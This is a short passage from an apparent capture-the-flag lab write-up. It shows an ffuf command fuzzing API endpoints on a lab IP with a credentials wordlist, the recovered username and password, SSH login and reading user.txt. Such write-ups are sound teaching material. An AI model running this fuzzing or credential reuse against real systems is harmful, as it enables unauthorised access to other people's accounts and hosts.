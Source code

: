 - Try fuzzing the right user (API Fuzzing):

```bash
ffuf -w /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -X POST -d '{"key":"7454c262d0d5a3a0c0b678d6c0dbc7ef"}' -u http://10.10.200.236:8081/api/FUZZ -fw 2

```

![image18](../resources/c40962ddcb4545d882bd3d56bf59429d.png)


![image19](../resources/9f9697738d9742aea229c732c0cbd4bc.png)

{"username":"**tommy**","password":"**DevMakesStuff01**"}

Credentials to SSH:

![image20](../resources/a17ac87b70c641fdac5230b489b4e30a.png)

```bash
cat user.txt

```
